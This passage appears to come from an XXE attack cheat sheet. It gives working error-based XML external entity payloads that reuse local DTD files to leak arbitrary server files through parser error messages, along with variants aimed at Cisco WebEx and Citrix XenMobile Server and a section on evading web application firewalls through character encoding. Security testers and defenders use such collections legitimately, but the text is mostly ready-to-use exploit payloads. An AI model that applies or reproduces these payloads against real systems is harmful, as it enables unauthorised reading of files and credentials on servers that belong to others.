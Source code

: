 Assuming payloads such as the previous return a verbose error. You can start pointing to local DTD. With an found DTD, you can submit payload such as the following payload. The content of the file will be place in the error message.

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///REPLACE_WITH_FILENAME_TO_READ">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<root></root>
```
### Cisco WebEx
```
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">
<!ENTITY % url.attribute.set '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```
### Citrix XenMobile Server
```
<!ENTITY % local_dtd SYSTEM "jar:file:///opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
<!ENTITY % Body '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```
[Other payloads using different DTDs](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md)


## WAF Bypasses 

### Bypass via character encoding

XML parsers uses 4 methods to detect encoding:
* HTTP Content Type: `Content-Type: text/xml; charset=utf-8`
* Reading Byte Order Mark (BOM)
* Reading first symbols of document 
    * UTF-8 (3C 3F 78 6D)
    * UTF-16BE (00 3C 00 3F)
    * UTF-16LE (3C 00 3F 00)
* XML declaration: `<?xml version="1.0" encoding="UTF-8"?>`

| Encoding | BOM      | Example                             |              |
|----------|----------|-------------------------------------|--------------|
| UTF-8    | EF BB BF | EF BB BF 3C 3F 78 6D 6C             | ...<?xml     |
| UTF-16BE | FE FF    | FE FF 00 3C 00 3F 00 78 00 6D 00 6C | ...<.?.x.m.l |
| UTF-16LE | FF FE    | FF FE 3C 00 3F 00 78 00 6D 00 6C 00 | ..<.?.x.m.l. |
